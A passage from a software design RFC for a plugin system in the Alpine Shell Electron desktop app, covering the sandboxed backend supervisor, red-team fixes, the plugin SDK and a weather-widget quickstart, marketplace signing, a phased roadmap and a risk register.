  async start(alpine) {
    async function refresh() {
      const res = await alpine.net.fetch('https://api.open-meteo.com/v1/forecast?...')
      if (res.status === 200) { cache = JSON.parse(res.body); alpine.broadcast('weather/current', cache) }
    }
    await refresh()
    setInterval(refresh, 600_000)
  },
}
```

`start` receives a **capability-scoped `alpine`** (only granted methods), handlers receive the **raw arg** (the supervisor strips the ipc `event`, so `event.sender` is never exposed). This diverges from first-party `(event, arg)`/`start(broadcast)` — documented loudly, and the scaffold/templates use the plugin shape so nobody copy-pastes the wrong signature.

### 6.5 Supervisor, protocol & re-checked privilege

`electron/pluginSupervisor.js` owns the trust boundary: the `webContents.id → pluginId` map, the single `plugins/backend-invoke` router (channel scoped to the caller's own plugin), broadcast fan-out (target-send, id-less), and fork/kill/restart. `electron/pluginBackendEntry.js` is the shipped runtime that builds `alpine`, `require()`s the plugin `main` **inside the child**, and marshals a tiny MessagePort protocol:

| Direction | kind | Payload |
|---|---|---|
| main→child | `init` | `{ pluginId, entryPath, granted[], network[] }` |
| child→main | `ready` | `{ channels[] }` |
| main→child | `invoke` | `{ callId, channel, arg }` |
| child→main | `result` | `{ callId, ok, value\|error }` |
| child→main | `broadcast` | `{ channel, data }` |
| child→main | `capability` | `{ callId, name, args }` |
| main→child | `capabilityResult` | `{ callId, ok, value\|error }` |
| child→main | `crash` | `{ message, stack }` (uncaughtException/unhandledRejection) |

Every capability the child requests is **re-checked in `pluginHostBridge.js`** against the fork-time grant before touching a privileged module — `alpine.net.fetch` and `alpine.storage.*` execute in **trusted main**, so the child needs no `fs` for config and the net allowlist is enforced by trusted code with `redirect:'manual'` + per-hop re-validation (closing the open-redirect exfil the red team found).

### 6.6 The bugs the red team caught — fixed as contract

| Defect | Fix (part of the design, not optional) |
|---|---|
| **Grant self-escalation** via writable `manifest.json` | Grants + network allowlist are **captured at fork time** into the in-memory record and stored in a registry file **under userData root, outside `pluginDir`**; the manifest is an install-time *request*, re-consented if it changes, never the runtime source. Drop `--allow-fs-write` to any dir containing `manifest.json`/`store.json` (all persistence is brokered anyway). |
| **Restart storm + resurrect-on-disable** | `restartCount` + `intentionalStop` live in a `Map` keyed by `pluginId` that **survives reforks**; set `intentionalStop` and delete the record **before** `child.kill()` on disable/reload; cap restarts in a rolling window; surface a "crashed / disabled" state instead of silent looping (**3 crashes / 60s → auto-disable**). |
| **`manifest.backend` path traversal** | `path.resolve` + realpath containment + reject symlinks before forking. |
| **Hung handler / leaked pending** | per-call timeout rejects + deletes the pending entry; heartbeat ping kills + restarts an unresponsive child; reject all pending on exit. |
| **No CPU/mem cap** | assign each child PID to a Windows **Job Object** (`JOB_OBJECT_LIMIT_PROCESS_MEMORY` + CPU rate) via a small koffi helper (mirroring the dxva2 FFI); track & kill child-spawned survivors on disable/uninstall. |
| **`--allow-fs-read=<pluginDir>` won't boot** | add `process.resourcesPath` + Electron exe dir + OS temp to `--allow-fs-read`, keep `--allow-fs-write` off; **run the Electron 40.6.1 `utilityProcess` + `--permission` spike before committing**, with a documented broker-only fallback (the permission model buys little since sockets are uncovered). |
| **Swallowed logs** | `stdio:'pipe'`, forward child stdout/stderr to the main console prefixed `[plugin:<id>]` (dev), surface `crash` messages in the Plugins UI. |
| **Unscoped `plugins/reload`/`list`** | gate all management channels behind the positive `isTrustedSender()` (settings window only). |
| **`shell:run` > gated `process`** | collapse the taxonomy: there is **no** `shell:run` for third parties; arbitrary launch is FORBIDDEN. `node` (fork a backend) is the single labeled top-risk grant, signing-gated. |

### 6.7 Wiring

```js
const pluginSupervisor = require('./pluginSupervisor')
ipc.register(wallpaper, network, /* …existing… */, updater, windowsUpdate, pluginSupervisor)
```

The plugin-window factory calls `pluginSupervisor.registerPluginWidget(win.webContents, pluginId)` at surface creation and loads the scoped `pluginPreload.js` — never `preload.js`.

---

## 7. `@alpine/plugin-sdk` & the < 5-Minute Quickstart

### 7.1 Package shape (dual build — the DRY fix)

```jsonc
// packages/plugin-sdk/package.json
{
  "name": "@alpine/plugin-sdk",
  "type": "module",
  "exports": {
    ".":             { "types": "./dist/index.d.ts", "import": "./dist/index.js", "require": "./dist/index.cjs" },
    "./react":       { "types": "./dist/react.d.ts", "import": "./dist/react.js" },
    "./jsx-runtime": { "types": "./dist/jsxRuntime.d.ts", "import": "./dist/jsxRuntime.js" },
    "./vite":        { "import": "./dist/vite.js" }
  },
  "peerDependencies": { "react": ">=19" }
}
```

A `tsup` build emits ESM + **CJS** + `.d.ts`, so third parties `npm install` it, the Vite renderer imports it, **and the CommonJS main process `require()`s the exact same permission list / id pattern / `satisfiesRange`** — one source of truth. The SDK build runs **before** the desktop build in `release`, and `apps/desktop` adds `"@alpine/plugin-sdk": "workspace:*"` so the symlinked `dist/index.cjs` resolves for `electron/*.js`.

### 7.2 Public API

| Export | Purpose |
|---|---|
| `PluginManifest`, `PluginPermission`, `*Contribution`, `TopbarSlot`, `DisplayScope` | Shared contract types (typed against your `plugin.json`). |
| `PLUGIN_PERMISSIONS`, `PLUGIN_ID_PATTERN`, `satisfiesRange`, `SUPPORTED_API_VERSIONS` | The single-source enforcement constants (also `require`d by main). |
| `usePluginSetting(key, default)` | Optimistic `[value, set]`, mirroring `useVolume`. |
| `usePluginState(key, default)` | Read-only reactive value over host `useShellState`. |
| `usePluginBackendState(channel, initial)` | Fetch-initial + subscribe to a backend `broadcast`. |
| `useShell()` | The capability-scoped shell (only granted methods; typed from the enumerated route surface). |
| `useDarkText`, `useTopbarBg`, `useTopbarTheme` | Topbar theming through the host `ThemeProvider`. |
| `PopupMenu` | The only sanctioned dropdown surface. |
| `alpinePluginPreset()` (from `/vite`) | Lib ESM output + react/react-dom/jsx-runtime external + `jsxImportSource` — the one-line build. |

### 7.3 The worked example — Weather, end to end

**Scaffold & run (the < 5-minute path):**

```bash
# 0:00
npm create alpine-plugin@latest weather
#   ? Template ›  Topbar widget (+ settings page)
#   ? Plugin id › com.example.weather
cd weather && npm install        # installs @alpine/plugin-sdk + vite

# 0:90
npm run dev                      # === alpine plugin dev
#   [alpine] built dist/renderer.js (312 ms)
#   [alpine] dev-linked com.example.weather → topbar/right (primary display)
#   [alpine] watching src/ … save to hot-reload

# 1:30  the temperature appears in the running topbar's right slot
# 2:00  edit src/renderer.tsx, save → rebuilt (48 ms) → reloaded in <1 s, no shell restart
```

`alpine plugin dev` writes `%APPDATA%\Alpine Shell\plugins\.dev-links.json` (`[{ id, dir }]`, **dev-only, never writable via any IPC handler**); `electron/modules/pluginDev.js` `fs.watch`es the dev-linked `dist/` and broadcasts `plugins/reload`, and the `alpine-plugin://` handler resolves dev-linked ids to the plugin's own dir. Hot-reload re-imports `renderer.js?v=<ts>` and remounts via a changed React `key`. **In dev, the author's own code loads in-process (Tier A) — the author is the trust root for their own machine, so they get the full ergonomic experience with no isolation penalty.**

**The three load-bearing files:**

```tsx
// src/renderer.tsx
import { usePluginSetting, useDarkText } from '@alpine/plugin-sdk'
import { useEffect, useState } from '@alpine/plugin-sdk/react'

async function fetchTemp(city: string): Promise<number> {
  const res = await fetch(`https://api.open-meteo.com/v1/forecast?current=temperature_2m&city=${city}`)
  const body = await res.json()
  return body.current.temperature_2m
}

export function TopbarWeather() {
  const dark = useDarkText()
  const [city] = usePluginSetting('city', 'Zurich')
  const [temp, setTemp] = useState<number | null>(null)
  useEffect(() => {
    let alive = true
    const load = () => fetchTemp(city).then((t) => { if (alive) setTemp(t) }).catch(() => {})
    load()
    const id = setInterval(load, 600_000)
    return () => { alive = false; clearInterval(id) }
  }, [city])
  return <span className={dark ? 'text-black/80' : 'text-white/80'}>{temp === null ? '—' : `${Math.round(temp)}°`}</span>
}

export function WeatherSettings() {
  const [city, setCity] = usePluginSetting('city', 'Zurich')
  return <input value={city} onChange={(e) => setCity(e.target.value)} placeholder="City" />
}

export function refreshCommand() { window.dispatchEvent(new Event('weather:refresh')) }
```

```ts
// vite.config.ts — the entire build config
import { defineConfig } from 'vite'
import { alpinePluginPreset } from '@alpine/plugin-sdk/vite'
export default defineConfig(alpinePluginPreset({ entry: 'src/renderer.tsx' }))
```

Plus `plugin.json` from §3.7 and a `tsconfig.json` (`jsx: 'react-jsx'`, `jsxImportSource: '@alpine/plugin-sdk'`). **Seven files, three load-bearing, zero lines of Electron/IPC.** The weather fetch is CSP-limited to `api.open-meteo.com`; storage of the city is brokered and per-plugin-isolated. No backend, so this plugin is installable as an ordinary (Tier B) third-party plugin once the Phase 2 sandbox exists — and runs in-process during the author's own dev loop today.

**Publish:** `alpine plugin build && alpine plugin pack` → a `com.example.weather.alpineplugin` → sign + submit (§8).

---

## 8. Distribution, Marketplace & Lifecycle

### 8.1 On-disk layout & format

```
%APPDATA%\Alpine Shell\plugins\
  registry.json                 # installed index (pluginRegistry.js owns it; grants stored here)
  <id>\ …                       # §3.1
  .cache\index.json             # last-fetched catalog
  .staging\<id>-<version>\      # extraction target before atomic swap
  .trash\<id>-<ts>\             # locked dirs pending delete, cleared on boot
```

`electron/pluginPaths.js` is the single source of path truth. A `.alpineplugin` is a ZIP extracted with Windows' built-in **`tar.exe`** (bsdtar reads zip) — **zero npm deps**, consistent with the app already shelling to `reg`/`powershell`/`csc`. `pluginArchive.js` provides `extractArchive`, `sha256`, `verifySignature`, and **post-extract containment** (reject absolute/`..`/symlink entries — the zip-slip + symlink-escape fixes), plus an `Expand-Archive` fallback.

### 8.2 Reused R2 pipeline — isolated bucket

The marketplace reuses the `scripts/publish.js` shape (`S3Client`, `cacheControlFor`) via a new `scripts/publishPlugin.js`, but pushes to a **separate bucket/prefix with distinct credentials** so the installer's version-pruning and bucket policy can't clobber third-party plugin keys (and vice versa):

```
plugins/index.json                                  # rolled-up catalog (no-cache, like *.yml)
plugins/<id>/latest.json                            # { version, sha256, signature, size, url, engines }
plugins/<id>/<version>/<id>-<version>.alpineplugin  # immutable bundle
plugins/<id>/icon.png
```

`electron/modules/pluginMarketplace.js` fetches `index.json` with `net.fetch` (exactly how `electron-updater` fetches `latest.yml`), caches it, and on install **verifies the Ed25519 signature (not just sha256)** before extract → `.staging` → **atomic rename** into place (extract-to-tmp + rename, reusing the `.trash` retry for EBUSY/EPERM on in-place update). **Every mutating marketplace/updater handler is gated by `isTrustedSender()` (settings window only)** — read-only `list`/`catalog` may stay open.

### 8.3 Web surface & deep link

`apps/web` (Next App Router): `/plugins` (server component reading `index.json`) and `/plugins/[id]` (detail with an **Install** button → `alpine-shell://install-plugin?id=&version=`). The desktop registers `alpine-shell://` via `app.setAsDefaultProtocolClient` + a single-instance `second-instance` handler that **only focuses the Settings detail page** — never auto-installs (§4.9). Drag-install reads the dropped file path via **`webUtils.getPathForFile`** exposed in preload (`File.path` was removed in Electron 32; the app is on 40.6.1, so the naive `file.path` path is dead). Ratings/downloads use a Cloudflare **D1** table behind a route handler; everything else is static JSON.

> **Supply-chain honesty:** `index.json` is a single-writer trust root today. Before opening third-party submission we ship a review/scan/signing pipeline; until then the store lists first-party + vetted publishers only, and sideloaded plugins are Unverified/Tier-B.

### 8.4 Lifecycle & failure isolation

| Channel (all `isTrustedSender`-gated) | Action |
|---|---|
| `plugins/list` | current `PluginRecord[]` |
| `plugins/set-enabled` | enable → load; disable → kill backend + unmount |
| `plugins/uninstall` | stop backend → `fs.rmSync(dir,{recursive,force})` → on lock, move to `.trash` → clear + delete session partition → remove from registry |
| `plugins/install-file` | extract local `.alpineplugin` → verify → `installStaged(enabled:false)` |
| `plugins/reload` | restart backend + broadcast cache-busted renderer reload |

| Failure | Containment | Recovery |
|---|---|---|
| UI throws in render | `PluginErrorBoundary` (per `PageErrorBoundary`) | inline "plugin isolated" fallback; host survives |
| Backend crashes/hangs | `utilityProcess` + watchdog + Job Object | restart w/ backoff; 3/60s → auto-disable, `status:'faulted'` |
| Incompatible | compat gate at load | never loaded, labeled with required version |
| Corrupt manifest/store | per-plugin `try/catch`; store `.bak` recovery | rest of system unaffected |

`installer.js:140` (`fs.rmdirSync` throws on the non-empty plugins tree, orphaning plugins on app uninstall) is replaced with `fs.rmSync(pluginsRoot(),{recursive,force})`. `ipc.js` gains `unregisterHandlers`/`registerModule` for runtime enable/disable of the *broker's* per-plugin routing (the `utilityProcess` child never registers `ipcMain` channels itself — the in-main bridge does).

Per-plugin auto-update (`pluginUpdater.js`) mirrors `updater.js`'s state machine + backoff **per plugin**, **gating every candidate by `engines.alpineShell` against `app.getVersion()`** so the shell never installs a build it can't run; `PluginRecord.hasUpdate` drives an "Update available" badge.

---

## 9. Phased Roadmap

Trust matures with the phases. **Phases 0–1 ship Tier A only and are explicitly gated to trusted/first-party/dev-link code.** Phase 2 builds the boundary that makes untrusted third-party safe. Phase 3 opens the supply chain.

### Phase 0 — MVP: renderer-only trusted local widgets + slot refactor (~1.5–2.5 wks)

**Goal:** first-party + dev-link widgets render through registries; no untrusted install path yet.

| Deliverable | Files created / changed |
|---|---|
| Contribution registry + reactive hooks | **+** `src/plugins/contributionRegistry.ts`, `src/plugins/bootstrapPlugins.ts` |
| Host runtime + one React instance (import-map, real jsx values) | **+** `src/plugins/alpineRuntime.ts`; **~** `index.html`, `src/main.tsx` |
| Topbar slot + error boundary | **+** `src/components/topbar/topbarPluginSlot.tsx`, `src/components/topbar/pluginErrorBoundary.tsx`; **~** `topBar.tsx:44-56` |
| Settings registry (NAV/PageRouter/labels reactive) | **~** `settingsApp.tsx` |
| `alpine-plugin://` scheme (realpath-confined, MIME-correct, no bypassCSP) + wallpaper-handler hardening | **~** `electron/main.js:6-8`, `:501` |
| SDK skeleton (types + theme hooks + `usePluginSetting`) | **+** `packages/plugin-sdk/**` (tsup dual build) |
| One first-party example widget dogfooded | **+** `apps/desktop/examples/clock/**` |

### Phase 1 — manifest + loader + settings hub + backend host (~3–4 wks)

| Deliverable | Files |
|---|---|
| Declarative manifest + realpath validator (single-source constants) | **+** `electron/pluginManifest.js`, `electron/pluginPaths.js`; SDK constants |
| Registry, per-plugin frecency-grade store, lifecycle | **+** `electron/modules/pluginRegistry.js`, `electron/pluginStore.js` |
| Loader over `alpine-plugin://` + Plugins hub UI | **+** `src/plugins/loadPlugin.ts`, `src/components/settings/pluginsHub.tsx` |
| Desktop widget host (per-display layout) | **+** `src/components/desktop/desktopWidgetHost.tsx`, `electron/modules/desktopWidgets.js` |
| Launcher provider refactor | **~** `launcherPanel.tsx` → `src/launcher/resultProviders.ts` |
| Backend supervisor + child runtime + broker (fault isolation, watchdog, Job Object) | **+** `electron/pluginSupervisor.js`, `electron/pluginBackendEntry.js`, `electron/pluginHostBridge.js` |
| Dev-link + hot-reload + Developer settings page | **+** `electron/modules/pluginDev.js`, `src/components/settings/developerPage.tsx`; **~** `scripts/dev.js` |
| `ipc.js` runtime (un)register; uninstall cleanup | **~** `electron/ipc.js`, `electron/modules/installer.js:140` |

### Phase 2 — permissions, isolation, SDK + CLI (~6–8 wks) — the hard security phase

| Deliverable | Files |
|---|---|
| **Tier B out-of-realm sandbox** (WebContentsView/child window, `sandbox:true`, per-plugin session, nav lockdown, all permission handlers deny) | **+** `electron/pluginPreload.js`, `electron/pluginSession.js`; **~** `electron/main.js` plugin-surface factory |
| **Capability broker + audited adapters** (`execFile`/native, no shell strings); named pure fns on `volume`/`power`/`network`/`media` | **+** `electron/pluginHost.js`, `electron/pluginBridge.js`; **~** `volume.js`, `power.js`, `network.js` (`connectSafe`), `mediaSession.js` |
| Server-side identity for events/storage; target-send, id-less channels | **~** supervisor, preload |
| Strict CSP on plugin + existing windows; positive `isTrustedSender`; nav lockdown everywhere | **~** `electron/main.js`, `electron/ipc.js` |
| Consent dialog + revocation + JIT confirm (concrete effect, rate-limited) | **+** `pluginConsentDialog.tsx`, `pluginHost.confirmEffect` |
| `@alpine/plugin-sdk/vite` preset, `create-alpine-plugin`, `@alpine/plugin-cli` | **+** `packages/create-alpine-plugin/**`, `packages/plugin-cli/**` |
| Declarative-topbar contract for untrusted widgets; typed capability client | SDK + host |

### Phase 3 — marketplace + signing + auto-update (~4–6 wks)

| Deliverable | Files |
|---|---|
| Ed25519 sign/verify (install + every load); Unverified caps | **+** `electron/pluginSignature.js`; **~** registry |
| R2 publish (isolated bucket) + catalog | **+** `scripts/publishPlugin.js` |
| Marketplace module + web `/plugins` + consent-only deep link + `webUtils` drag-install | **+** `electron/modules/pluginMarketplace.js`, `apps/web/src/app/plugins/**`; **~** `preload.js`, `main.js` |
| Per-plugin auto-updater (compat-gated) | **+** `electron/modules/pluginUpdater.js` |
| Ratings/downloads (D1) + submission/review pipeline | **+** `apps/web/src/app/api/plugins/**` |

---

## 10. Concrete First PR (Phase 0) — startable today

**Scope:** make the topbar registry-driven and render one first-party widget through it, with the runtime + protocol scaffolding — **no untrusted install path, no security claims.** Trusted/first-party only.

**Add**

- `packages/plugin-sdk/` — `package.json` (tsup dual build), `src/index.ts` (contribution types, `TopbarSlot`, `DisplayScope`, `PLUGIN_PERMISSIONS`, `PLUGIN_ID_PATTERN`, `satisfiesRange`, `SUPPORTED_API_VERSIONS`, `PLUGIN_API_VERSION`), `src/react.ts`, `src/jsxRuntime.ts` (real values), `src/hooks.ts` (`usePluginSetting`, theme hooks), `src/vite.ts` (preset).
- `apps/desktop/src/plugins/contributionRegistry.ts` — four arrays, `register*`, `useSyncExternalStore` hooks.
- `apps/desktop/src/plugins/alpineRuntime.ts` — `installAlpineRuntime()` (publish `window.alpine` once).
- `apps/desktop/src/plugins/bootstrapPlugins.ts` — activate first-party contributions per surface.
- `apps/desktop/src/components/topbar/topbarPluginSlot.tsx` and `pluginErrorBoundary.tsx`.
- `apps/desktop/examples/clock/` — a real first-party widget exercising the path.

**Change**

- `apps/desktop/src/components/topbar/topBar.tsx:44-56` — insert `<TopbarPluginSlot slot="right" />` (and left/center) into the clusters, inside `ThemeProvider`.
- `apps/desktop/src/main.tsx` — call `installAlpineRuntime()` before `resolveView()`; `bootstrapPlugins('topbar')` after the topbar view resolves.
- `apps/desktop/index.html` — inject the react/react-dom/jsx-runtime import-map.
- `apps/desktop/electron/main.js:6-8` and `:501` — register the `alpine-plugin://` privileged scheme (realpath-confined, `Content-Type: text/javascript`, `ACAO:*`, **no `bypassCSP`**) and, in the same PR, retrofit the `alpine-wallpaper` handler with realpath confinement.
- `apps/desktop/src/types/shell.d.ts` — add `window.alpine` (`AlpineRuntime`) referencing SDK types.
- `apps/desktop/package.json` — add `"@alpine/plugin-sdk": "workspace:*"`; root pipeline builds the SDK before the app.

**Explicitly out of scope for PR 1:** untrusted isolation, backend, manifest install, marketplace, signing. The PR ships a CI smoke plugin (fragment + hook + `PopupMenu`) asserting the runtime mounts, and a note that only trusted code may use this path until Phase 2.

---

## 11. Risks & Open Questions

| # | Risk / question | Disposition |
|---|---|---|
| 1 | **Electron 40 `utilityProcess` + `--permission` behavior** (does it honor `execArgv`; can it boot from asar). | **Spike before Phase 1 backend work.** Documented broker-only fallback; the permission model is a backstop, not the control (sockets are uncovered regardless). |
| 2 | **Transparent-topbar compositing for Tier B interactive widgets.** A `WebContentsView` can't easily paint into the 24px transparent bar with a `PopupMenu` dropdown or participate in cursor-region tracking. | v1 ships the **declarative topbar contract** for untrusted widgets; a transparent-view input-forwarding compositor is a Phase 3+ research item. Interactive React for untrusted code lives in child-window settings pages. |
| 3 | **`create-alpine-plugin` registry** (npm vs GitHub Packages). Hard blocker for `npm create`. | **Decide before Phase 2.** Recommend public npm. |
| 4 | **Backend network exfiltration** is uncontainable inside a signed Node child. | Accepted and documented: backend = signing-gated semi-trust; `manifest.network` advisory. A future OS sandbox (AppContainer / WFP rules) is the only real fix and is out of scope. |
| 5 | **CSP breaks common bundler output** (inline bootstrap, wasm-unsafe-eval). | The `alpinePluginPreset` emits CSP-compatible output; document required config; a `wasm` opt-in is a later token. |
| 6 | **Marketplace vetting.** `index.json` is a single-writer root; no malware scanning yet. | First-party + vetted publishers only until the Phase 3 submission/review/signing pipeline lands. |
| 7 | **`window.alpine` tampering between in-realm Tier A plugins.** | `Object.freeze` the runtime + exposed primitives; Tier A is trusted/signed, so this is defense-in-depth, not the boundary. |
| 8 | **SDK ↔ host version skew** at load. | Enforce `manifest.apiVersion ∈ SUPPORTED_API_VERSIONS` and `engines.alpineShell` **before** import; surface incompatibility in the Plugins page. |
| 9 | **CJS main resolving the built SDK artifact** (build ordering). | Pipeline builds `@alpine/plugin-sdk` first; CI asserts `require('@alpine/plugin-sdk')` resolves the CJS build and that the permission Set equals the schema. |
| 10 | **Effort concentration in Phase 2.** The security phase is ~half the total budget and the riskiest. | Sequence it after Phase 0–1 prove the ergonomics, and keep Phase 0–1 explicitly trusted-only so no untrusted exposure exists before the boundary is built. |

---

*End of RFC. Phase 0 is shovel-ready (§10). The one hard external dependency before backend work is the Electron 40 `utilityProcess` spike (Risk #1); everything else is buildable with the primitives already in the tree.*